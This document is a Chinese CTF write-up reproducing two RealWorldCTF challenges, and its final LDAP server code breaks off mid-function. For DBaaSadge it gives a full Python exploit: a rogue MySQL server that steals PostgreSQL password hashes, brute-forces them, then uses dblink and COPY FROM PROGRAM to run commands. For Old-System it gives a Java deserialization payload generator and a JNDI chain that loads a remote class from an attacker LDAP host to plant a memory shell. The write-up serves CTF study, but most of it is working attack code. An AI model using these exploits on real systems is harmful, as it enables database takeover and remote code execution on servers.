





## TL;DR

接下来我会抽空复现一些 RWCTF 的题目，还是太想打 CTF 了，学习一些思路，也算是弥补没参加 过 RWCTF 的遗憾了

## DBaaSadge

首先需要注意一点，我本地是 Mac，所以构建环境的 compose 需要换一下
```yml
services:
  web:
    build: .
    platform: linux/amd64
    volumes:
      - ./html/:/var/www/html/
      - ./start.sh:/start.sh
    entrypoint: sh /start.sh
    ports:
      - "60080:80"

```

启动之后就正常测试就行了 
题目给了一个 PostgreSQL 作为数据库服务的场景，Web 端只有一个 PHP 文件，逻辑很简单：从 GET 参数 `sql` 读取一条 SQL 语句，以 `realuser` 身份（并不是最高用户）连接本地 PostgreSQL 并执行，返回结果。限制有两个——SQL 长度不超过 100 字符，以及 `statement_timeout` 被设为 10 秒。

核心的 PHP 逻辑就这些

```php
<?php
error_reporting(0);
if(!$sql=(string)$_GET["sql"]){
  show_source(__FILE__);
  die();
}
header('Content-Type: text/plain');
if(strlen($sql)>100){
  die('That query is too long ;_;');
}
if(!pg_pconnect('dbname=postgres user=realuser')){
  die('DB gone ;_;');
}
if($query = pg_query($sql)){
  print_r(pg_fetch_all($query));
} else {
  die('._.?');
}
```

Dockerfile 里装了 `postgresql-10`、`postgresql-10-mysql-fdw`、`apache2` 和 `php-pgsql`，还建了 `dblink` 和 `mysql_fdw` 两个扩展。`realuser` 是 NOSUPERUSER，但拿到了 `ALL PRIVILEGES ON DATABASE postgres` 和 `GRANT USAGE ON FOREIGN DATA WRAPPER mysql_fdw TO realuser`。这两个权限的作用，简单来说有

- 登录到 `postgres` 数据库。
  
- 利用 `CREATE` 权限建立一个属于自己的新 Schema。
  
- 利用对 `mysql_fdw` 的 `USAGE` 权限，创建一个指向任意 MySQL 数据库的连接。
  
- 建立外部表，从而通过 PostgreSQL 服务器作为跳板，读取或修改内网 MySQL 数据库里的数据。（这个没啥用没用到：
  

超级用户 `postgres` 的密码在 `start.sh` 里被改成了一个 5 字符的随机串：

```bash
su postgres -c "psql -c 'ALTER USER postgres WITH ENCRYPTED PASSWORD \$\$`head /dev/urandom | tr -dc '0-9a-z' | fold -w 5 | head -n1`\$\$;'"
```

字符集是 `[0-9a-z]`，36 个字符，5 位长度，总共 36^5 ≈ 6046 万种组合，完全属于可爆破区间

`start.sh` 还往 `pg_hba.conf` 最前面插了一条 `local all realuser trust`，所以 PHP 用 Unix socket 连 PostgreSQL 不需要密码，但 `postgres` 用户的本地连接走的是默认的 `peer` 认证（用户名一致为 postgres），TCP 连接则走 `md5`。

### 从 realuser 到 postgres：dblink 的障碍

第一反应是用 `dblink` 连本地 PostgreSQL 冒充 postgres。`local all postgres peer` 这条规则意味着，如果连接进程的 OS 用户是 `postgres`（PostgreSQL 后端进程恰好就是），peer 认证就能通过。但 dblink 的源码里有一个关键检查

```c
if (!superuser())
{
    if (!PQconnectionUsedPassword(conn))
    {
        PQfinish(conn);
        ereport(ERROR, ...);
    }
}
```

`PQconnectionUsedPassword` 检查连接是否实际使用了密码认证，peer 认证和 trust 认证都不会需要密码，所以必须走 TCP + md5 认证，而且密码必须正确。

需要获得密码的话，在线爆破不太可能（从未喷洒成功过），那么我们可以拿到密码实际 hash 去做离线爆破。

### mysql_fdw + Rogue MySQL Server 读文件

PostgreSQL 的 `pg_authid` 系统表里存着所有用户的密码哈希，但 `realuser` 没权限查。不过有拓展 `mysql_fdw` ，可以创建指向外部 MySQL 服务器的 foreign server、user mapping 和 foreign table。所以也就可以 Rogue MySQL Server 这类恶意 MySQL server 去实现任意文件读取。

mysql_fdw 连接 MySQL 后，首先发的是 `SET sql_mode='ANSI_QUOTES'`，这是一条普通查询（COM_QUERY，命令字节 `0x03`），不是 prepared statement。这很重要，因为 LOCAL INFILE 只能作为 COM_QUERY 的响应触发。我的 rogue server 就在这条 SET 查询上返回 LOCAL INFILE 请求，目标文件是 `pg_authid` 的数据文件。

和 MySQL 一样，Pgsql 也会进行本地文件转储。

OID = 1260 是 PostgreSQL 源码里硬编码的，定义在 src/include/catalog/pg_authid.h：

```c
#define AuthIdRelationId 1260
```

这个 OID 在所有 PostgreSQL 安装里都一样，或者查询一下，

```sql
SELECT oid FROM pg_class WHERE relname='pg_authid';
```

第一段 /var/lib/postgresql/10/main/ 是数据目录，这是 Debian/Ubuntu 上 PostgreSQL 10 的默认路径，正常情况下`SHOW data_directory`就能看到，但这个命令需要 superuser，realuser 跑不了。

第二段 global/ 是因为 pg_authid 的 relisshared = true。PostgreSQL 把系统表分成两类：每个数据库独享的放在 base/db_oid/ 下，集群级共享的放在 global/ 下。pg_authid 存的是全集群的用户认证信息，自然是共享的。这个信息 realuser 也能查到

```sql
SELECT relisshared FROM pg_class WHERE relname='pg_authid'
# t
```

第三段 1260 作为文件名，PostgreSQL 正常情况下用 relfilenode 字段作为数据文件名，但 pg_authid 的 relfilenode = 0。

这在 PostgreSQL 里是一个特殊类别，叫 mapped catalog——这类系统表的文件位置不记录在 pg_class 里，而是在源码里硬编码映射，文件名直接等于 OID。对比一下就很清楚：

| **表名** | **OID** | **relfilenode** | **表类型** | **物理文件名对应逻辑** |
| --- | --- | --- | --- | --- |
| **`pg_authid`** | 1260 | 0   | mapped catalog（映射系统目录） | **OID** (即文件名为 `1260`) |
| **`pg_shadow`** | 11531 | 11531 | 普通系统表 | **relfilenode** (即文件名为 `11531`) |
| **`pg_user`** | 11538 | 11538 | 普通系统表 | **relfilenode** (即文件名为 `11538`) |

relfilenode = 0 的表在 PostgreSQL 里只有几张：pg_authid、pg_database、pg_tablespace、pg_db_role_setting、pg_shdepend、pg_shseclabel、pg_subscription。这些都是 bootstrap 阶段就要用到、但又不能依赖 pg_class 自身来定位文件位置的表，所以做了特殊处理。所以数据文件在 `/var/lib/postgresql/10/main/global/1260`

### 读取 pg_authid 并爆破密码

通过 Web 接口创建三个对象，每个都不超过 100 字符：

第一个请求创建 foreign server，指向宿主机上跑的 rogue MySQL server。Docker Desktop 环境下容器内可以通过 `host.docker.internal` 访问宿主机：

```
GET /?sql=CREATE+SERVER+s+FOREIGN+DATA+WRAPPER+mysql_fdw+OPTIONS(host+'host.docker.internal',port+'3306') HTTP/1.1
Host: <target>
```

第二个请求创建 user mapping：

```
GET /?sql=CREATE+USER+MAPPING+FOR+realuser+SERVER+s+OPTIONS(username+'a',password+'b') HTTP/1.1
Host: <target>
```

第三个请求创建 foreign table：

```
GET /?sql=CREATE+FOREIGN+TABLE+t(s+text)+SERVER+s+OPTIONS(table_name+'t') HTTP/1.1
Host: <target>
```

然后查询这个 foreign table 触发连接。rogue server 启动时指定目标文件为 `/var/lib/postgresql/10/main/global/1260`，收到连接后就能拿到 8192 字节的 pg_authid 数据文件。这个文件是 PostgreSQL 的二进制堆格式，但密码哈希是明文字符串 `md5` 开头的，直接正则提取就行。

PostgreSQL 的 MD5 密码格式是 `md5` + MD5(password + username)。对 postgres 用户来说就是 `md5` + MD5(password + `postgres`)。

### dblink 提权 + COPY FROM PROGRAM

密码到手后，用 dblink 通过 TCP 连接本地 PostgreSQL（`host=127.0.0.1`），走 md5 认证。这样 `PQconnectionUsedPassword` 返回 true，dblink 的非超级用户检查就能通过。

但这里有个长度问题。最关键的 COPY 查询如果用 `host=127.0.0.1`：

```
SELECT dblink_exec('host=127.0.0.1 user=postgres password=XXXXX','COPY f FROM PROGRAM ''/readflag''')
```

数一下正好 101 字符，超了 1 个。那直接用 `127.1`代替 `127.0.0.1`即可。

第一步建表：

```
GET /?sql=SELECT+dblink_exec('host%3D127.1+user%3Dpostgres+password%3DXXXXX','CREATE+TABLE+f(s+text)') HTTP/1.1
Host: <target>
```

第二步用 COPY FROM PROGRAM 执行 /readflag，输出写入表中：

```
GET /?sql=SELECT+dblink_exec('host%3D127.1+user%3Dpostgres+password%3DXXXXX','COPY+f+FROM+PROGRAM+''/readflag''') HTTP/1.1
Host: <target>
```

第三步读出 flag：

```
GET /?sql=SELECT+*+FROM+dblink('host%3D127.1+user%3Dpostgres+password%3DXXXXX','SELECT+s+FROM+f')+AS+t(s+text) HTTP/1.1
Host: <target>
```

dblink_exec 每次创建匿名连接，执行完就断开，但表是持久化的，所以三步分别用独立连接没问题。表 `f` 归 postgres 所有，但第三步通过 dblink 以 postgres 身份查询，不存在权限问题。`COPY f FROM PROGRAM '/readflag'` 以后端 postgres 用户身份 fork 出 shell 执行 `/readflag`。

不过我看网上的 WP 倒是很多打 UDF 提权到高权限用户的，而且需要注意 Pgsql 2048 字符自动以 0 补全的细节问题

### Exploit

exp 如下

```python
#!/usr/bin/env python3
import hashlib
import itertools
import re
import socket
import string
import struct
import sys
import threading
import time
import urllib.parse
import urllib.request


def mysql_packet(payload, seq):
    return struct.pack("<I", len(payload))[:3] + struct.pack("B", seq) + payload


def read_mysql_packet(conn):
    header = b""
    while len(header) < 4:
        chunk = conn.recv(4 - len(header))
        if not chunk:
            return None, None
        header += chunk
    length = struct.unpack("<I", header[:3] + b"\x00")[0]
    seq = header[3]
    if length == 0:
        return b"", seq
    data = b""
    while len(data) < length:
        chunk = conn.recv(length - len(data))
        if not chunk:
            return None, None
        data += chunk
    return data, seq


def rogue_mysql_server(port, target_file, result):
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind(("0.0.0.0", port))
    srv.listen(1)
    srv.settimeout(30)
    try:
        conn, _ = srv.accept()
    except socket.timeout:
        srv.close()
        return

    caps = 1 | 2 | 4 | 8 | 128 | 512 | 8192 | 32768 | 0x10000 | 0x20000 | 0x80000
    greeting = b"\x0a" + b"5.7.42\x00" + struct.pack("<I", 1)
    greeting += b"\x01\x02\x03\x04\x05\x06\x07\x08" + b"\x00"
    greeting += struct.pack("<H", caps & 0xFFFF) + b"\x21"
    greeting += struct.pack("<H", 0x0002) + struct.pack("<H", (caps >> 16) & 0xFFFF)
    greeting += b"\x15" + b"\x00" * 10
    greeting += b"\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x00"
    greeting += b"mysql_native_password\x00"
    conn.sendall(mysql_packet(greeting, 0))

    payload, seq = read_mysql_packet(conn)
    if payload is None:
        conn.close()
        srv.close()
        return

    ok = b"\x00\x00\x00" + struct.pack("<H", 0x0002) + struct.pack("<H", 0)
    conn.sendall(mysql_packet(ok, seq + 1))

    while True:
        payload, seq = read_mysql_packet(conn)
        if payload is None or len(payload) == 0:
            break
        if payload[0] == 3:
            conn.sendall(mysql_packet(b"\xfb" + target_file.encode(), seq + 1))
            file_data = b""
            while True:
                fp, fseq = read_mysql_packet(conn)
                if fp is None or len(fp) == 0:
                    break
                file_data += fp
            conn.sendall(mysql_packet(ok, fseq + 1))
            if file_data:
                result["data"] = file_data
            break
        elif payload[0] == 1:
            break
        else:
            conn.sendall(mysql_packet(ok, seq + 1))

    conn.close()
    srv.close()


def crack_postgres_password(md5_hash):
    target = md5_hash[3:]
    charset = string.digits + string.ascii_lowercase
    for combo in itertools.product(charset, repeat=5):
        pw = "".join(combo)
        if hashlib.md5((pw + "postgres").encode()).hexdigest() == target:
            return pw
    return None


def sql_query(base_url, sql):
    url = base_url + "?" + urllib.parse.urlencode({"sql": sql})
    with urllib.request.urlopen(url, timeout=15) as resp:
        return resp.read().decode("utf-8", "replace")


def main():
    if len(sys.argv) < 3:
        print("usage: exp.py <target_url> <mysql_host>")
        sys.exit(1)
    base_url = sys.argv[1].rstrip("/")
    mysql_host = sys.argv[2]

    rogue_port = 13306
    pg_authid_path = "/var/lib/postgresql/10/main/global/1260"
    result = {}

    server_thread = threading.Thread(
        target=rogue_mysql_server, args=(rogue_port, pg_authid_path, result)
    )
    server_thread.daemon = True
    server_thread.start()
    time.sleep(0.3)

    sql_query(base_url, "DROP FOREIGN TABLE IF EXISTS t")
    sql_query(base_url, "DROP USER MAPPING IF EXISTS FOR realuser SERVER s")
    sql_query(base_url, "DROP SERVER IF EXISTS s")
    sql_query(
        base_url,
        "CREATE SERVER s FOREIGN DATA WRAPPER mysql_fdw OPTIONS(host '%s',port '%d')"
        % (mysql_host, rogue_port),
    )
    sql_query(
        base_url,
        "CREATE USER MAPPING FOR realuser SERVER s OPTIONS(username 'a',password 'b')",
    )
    sql_query(
        base_url, "CREATE FOREIGN TABLE t(s text) SERVER s OPTIONS(table_name 't')"
    )

    sql_query(base_url, "SELECT * FROM t")
    server_thread.join(timeout=5)

    if "data" not in result:
        print("[-] failed to read pg_authid")
        sys.exit(1)

    matches = re.findall(rb"md5[0-9a-f]{32}", result["data"])
    if not matches:
        print("[-] no md5 hash found in pg_authid")
        sys.exit(1)

    pg_hash = matches[0].decode()
    password = crack_postgres_password(pg_hash)
    if not password:
        print("[-] failed to crack password")
        sys.exit(1)

    conn_str = "host=127.1 user=postgres password=%s" % password

    sql_query(base_url, "DROP TABLE IF EXISTS f")
    sql_query(base_url, "SELECT dblink_exec('%s','CREATE TABLE f(s text)')" % conn_str)
    sql_query(
        base_url,
        "SELECT dblink_exec('%s','COPY f FROM PROGRAM ''/readflag''')" % conn_str,
    )
    flag = sql_query(
        base_url,
        "SELECT * FROM dblink('%s','SELECT s FROM f') AS t(s text)" % conn_str,
    )
    print(flag)


if __name__ == "__main__":
    main()


# python3 exp.py http://localhost:60080 host.docker.internal
```



`mysql_host` 是目标 PostgreSQL 能访问到的 rogue MySQL server 的地址，实际比赛中就是自己 VPS 的公网 IP，本地 Docker Desktop 复现时传 `host.docker.internal`。

`host=127.1` 这个技巧依赖 `getaddrinfo` 把 `127.1` 解析成 `127.0.0.1`，在大多数 Linux 环境下没问题。但是如果目标环境不支持，也有很多办法，比如把表名缩成单字符、用 `dblink` 代替 `dblink_exec` 省掉 `_exec` 等。

## Old-System 

JDK 1.4.2 + CB 1.6 + CC 2.1 反序列化。

PriorityQueue、TemplatesImpl、InvokerTransformer 全部不存在，触发器和出口都得重找，最终用 HashMap+TreeMap 触发 BeanComparator，出口走 LdapAttribute 做 JNDI 注入，加载远程类植入 Godzilla Filter 内存马。

### 题目环境

war 包部署在 Tomcat 5.0.25 + JDK 1.4.2_19 上。`web.xml` 注册了一个 Servlet 映射到 `/object`，WEB-INF/lib 下有 commons-beanutils 1.6、commons-collections 2.1、commons-logging 1.0.4、log4j 1.2.8。

从字节码还原 `ObjectServlet`：

```java
public class ObjectServlet extends HttpServlet {
    private ClassLoader appClassLoader;

    public void init(ServletConfig config) throws ServletException {
        super.init(config);
        String realPath = config.getServletContext().getRealPath("/");
        File libDir = new File(realPath + File.separator + "WEB-INF" + File.separator + File.separator + "lib");
        if (libDir.exists() && libDir.isDirectory()) {
            File[] jars = libDir.listFiles();
            if (jars != null) {
                URL[] urls = new URL[jars.length + 1];
                for (int i = 0; i < jars.length; i++) {
                    if (jars[i].getName().endsWith(".jar")) {
                        urls[i] = jars[i].toURI().toURL();
                    }
                }
                File classesDir = new File(realPath + File.separator + "WEB-INF" + File.separator + File.separator + "classes");
                if (classesDir.exists() && classesDir.isDirectory()) {
                    urls[jars.length] = classesDir.toURI().toURL();
                }
                appClassLoader = new URLClassLoader(urls);
            }
        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        PrintWriter out = resp.getWriter();
        ClassLoader oldCl = Thread.currentThread().getContextClassLoader();
        Thread.currentThread().setContextClassLoader(appClassLoader);
        try {
            ClassLoaderObjectInputStream ois = new ClassLoaderObjectInputStream(appClassLoader, req.getInputStream());
            Object obj = ois.readObject();
            ois.close();
            out.print(obj);
        } catch (ClassNotFoundException e) {
            e.printStackTrace(out);
        } finally {
            Thread.currentThread().setContextClassLoader(oldCl);
        }
    }
}
```

`ClassLoaderObjectInputStream`：

```java
public class ClassLoaderObjectInputStream extends ObjectInputStream {
    private final ClassLoader classLoader;

    public ClassLoaderObjectInputStream(ClassLoader classLoader, InputStream in) throws IOException, StreamCorruptedException {
        super(in);
        this.classLoader = classLoader;
    }

    protected Class resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        return Class.forName(desc.getName(), false, classLoader);
    }

    protected Class resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
        Class[] interfaceClasses = new Class[interfaces.length];
        for (int i = 0; i < interfaces.length; i++) {
            interfaceClasses[i] = Class.forName(interfaces[i], false, classLoader);
        }
        return Proxy.getProxyClass(classLoader, interfaceClasses);
    }
}
```

没有 WAF、没有白名单、没有签名校验。`resolveClass` 只是换了 ClassLoader，没有做任何类过滤。`doPost` 把线程上下文 ClassLoader 切成 `appClassLoader`——这个细节后面是最大的坑。`appClassLoader` 是 `init` 里 `new URLClassLoader(urls)` 创建的，urls 只包含 WEB-INF/lib 和 WEB-INF/classes，所以默认父 ClassLoader 是创建线程的上下文 ClassLoader（Tomcat 启动阶段是 AppClassLoader），而不是 WebappClassLoader。

### 标准 CB 链

ysoserial 的 CommonsBeanutils1 链子：PriorityQueue → BeanComparator → PropertyUtils.getProperty → TemplatesImpl.getOutputProperties → defineClass → RCE。触发器是 PriorityQueue，出口是 TemplatesImpl。

```java
package Base.Unserialize.shiro;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

public class CommonsBeanutils1shiro {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Base.Unserialize.shiro.Evil.class.getName()).toBytecode()});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null,String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

但是这四个类都是 JDK 1.5+ 的，`com.sun.org.apache` 整个包是空的，XSLTC 还没集成进 1.4.2，TemplatesImpl/TrAXFilter/AbstractTranslet 全不可用。

CC 链也不行，因为 CC 2.1 没有 `InvokerTransformer`、`ChainedTransformer`、`ConstantTransformer`，这三个类是 CC 3.0 才加的。`TransformingComparator` 倒是有，但没实现 Serializable，也没有可用的 Transformer 做命令执行。`EventHandler` + `Proxy` 也不行，Proxy 实现了 Serializable 但 EventHandler 没有。

很典型的利用类挖掘拼接 gadget 了。

### 入口触发类挖掘

PriorityQueue 不存在，自然想到 TreeMap 和 TreeSet，它们可以触发 Comparator#compare 方法，但跟进 `TreeMap.readObject`：

```java
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    s.defaultReadObject();
    int size = s.readInt();
    buildFromSorted(size, null, s, null);
}
```

科普


发现`buildFromSorted` 直接从排序数据构建红黑树结构，不走 `put`，不走 `compare`。`TreeSet.readObject` 也一样，委托给 `TreeMap.readTreeSet` → `buildFromSorted`。所以反序列化时不会触发 `comparator.compare()`。最后剩下万能入口 HashMap，`HashMap.readObject` 调用 `putForCreate` 放回每个 key-value：

```java
private void putForCreate(Object key, Object value) {
    Object k = maskNull(key);
    int hash = hash(k);
    int index = indexFor(hash, table.length);
    for (Entry e = table[index]; e != null; e = e.next) {
        if (e.hash == hash && eq(k, e.key)) {
            e.value = value;
            return;
        }
    }
    createEntry(hash, k, value, index);
}
```

hash 碰撞时 `eq(k, e.key)` 即 `k.equals(e.key)`。如果 key 是 TreeMap，走 `AbstractMap.equals`：

```java
public boolean equals(Object o) {
    if (o == this) return true;
    if (!(o instanceof Map)) return false;
    Map m = (Map) o;
    if (m.size() != size()) return false;
    Iterator i = entrySet().iterator();
    while (i.hasNext()) {
        Map.Entry e = (Map.Entry) i.next();
        Object key = e.getKey();
        Object value = e.getValue();
        if (value == null) {
            if (!(m.get(key) == null && m.containsKey(key))) return false;
        } else {
            if (!value.equals(m.get(key))) return false;
        }
    }
    return true;
}
```

`m.get(key)` 调用另一个 TreeMap 的 `get` → `getEntry` → `comparator.compare()`。完整触发链：

```
HashMap.readObject → putForCreate → hash 碰撞 → eq → AbstractMap.equals → TreeMap.get → getEntry → BeanComparator.compare → PropertyUtils.getProperty
```

需要两个内容相同的 TreeMap 作为 HashMap 的 key，产生 hash 碰撞。

### 出口恶意类

出口要找：实现 Serializable，有 `get` 开头无参 public 方法，getter 里有操作的，由于字节码这个类不存在，再加上这个 jdk 版本，很容易想到打 JNDI 注入，最终静态分析发现居然只有 `LdapAttribute` 在 getter 里创建了 `InitialDirContext`。

`LdapAttribute` 的字段结构：

```java
final class LdapAttribute extends BasicAttribute {
    private transient DirContext baseCtx;
    private Name rdn;
    private String baseCtxURL;
    private Hashtable baseCtxEnv;
}
```

`baseCtx` 是 transient，反序列化后为 null。`baseCtxURL` 可控。从字节码还原关键方法：

```java
public DirContext getAttributeDefinition() throws NamingException {
    DirContext schema = getBaseCtx().getSchema(rdn);
    return (DirContext) schema.lookup("AttributeDefinition/" + getID());
}

private DirContext getBaseCtx() throws NamingException {
    if (baseCtx != null) return baseCtx;
    if (baseCtxEnv == null) baseCtxEnv = new Hashtable(3);
    baseCtxEnv.put("java.naming.factory.initial", "com.sun.jndi.ldap.LdapCtxFactory");
    baseCtxEnv.put("java.naming.provider.url", baseCtxURL);
    baseCtx = new InitialDirContext(baseCtxEnv);
    return baseCtx;
}
```

`baseCtxURL` 可控 → JNDI provider url 可控 → 连攻击者的 LDAP 服务器。`rdn` 要设成 `new CompositeName("a//b")`，让 `getSchema(rdn)` 的调用路径走 `LdapCtx.c_lookup` 而不是 `HierMemDirCtx.lookup`，后者是本地内存操作不触发远程连接。

同时还发现了一些其他的类，但是最终都无法使用。

`BasicAttribute.getAttributeDefinition()` 只抛 `OperationNotSupportedException`

`LdapReferralException.getReferralContext()` 只创建本地对象不发起连接`RegistryContext` 不实现 Serializable 且 `getReference()` 只返回本地克隆

`CNCtx`、`LdapReferralContext` 的 `getObjectInstance` 调用都在非 getter 方法里。

### Poc

其实一般的，打反序列化都知道一个细节问题，就是`BeanComparator` 没有显式 `serialVersionUID`，JVM 自动计算的值在不同 JDK 版本间可能不同。

所以这里我们考虑在容器里面跑 poc，否则目标反序列化时 UID 不匹配，就会失败。

最终调试得到最终 payload 如下

```java
import org.apache.commons.beanutils.BeanComparator;

import javax.naming.CompositeName;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.TreeMap;

public class PayloadGenerator {

    public static void main(String[] args) throws Exception {

        String ldapCtxUrl = args.length > 0 ? args[0] : "ldap://host.docker.internal:1389";

        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ctor = ldapAttributeClazz.getDeclaredConstructor(new Class[]{String.class});
        ctor.setAccessible(true);
        Object ldapAttribute = ctor.newInstance(new Object[]{"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));

        BeanComparator comparator = new BeanComparator("class");
        TreeMap treeMap1 = new TreeMap(comparator);
        treeMap1.put(ldapAttribute, "aaa");
        TreeMap treeMap2 = new TreeMap(comparator);
        treeMap2.put(ldapAttribute, "aaa");

        HashMap hashMap = new HashMap();
        hashMap.put(treeMap1, "bbb");
        hashMap.put(treeMap2, "ccc");

        Field propertyField = BeanComparator.class.getDeclaredField("property");
        propertyField.setAccessible(true);
        propertyField.set(comparator, "attributeDefinition");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.ser"));
        oos.writeObject(hashMap);
        oos.close();
    }
}
```

运行时 classpath 要带全 WEB-INF/lib 下所有 jar。

### LDAP 服务器自定义

其实用网上开源项目效果也是一样的，但是由于环境特殊，还是直接让 AI 写一个了

整个 LDAP 交互就三个消息：BindResponse、SearchResultEntry（带 javaCodeBase/javaFactory）、SearchResultDone。

```python
import socket
import struct
import sys

def ber_len(n):
    if n < 0x80: return bytes([n])
    elif n < 0x100: return bytes([0x81, n])
    elif n < 0x10000: return bytes([0x82, n >> 8, n & 0xff])
    else: return bytes([0x83, (n >> 24) & 0xff, (n >> 16) & 0xff, (n >> 8) & 0xff, n & 0xff])

def tlv(tag, data):
    if isinstance(data, str): data = data.encode()
    return bytes([tag]) + ber_len(len(data)) + data

def seq(*items): return tlv(0x30, b''.join(items))
def integer(val):
    if val < 0x80: return tlv(0x02, bytes([val]))
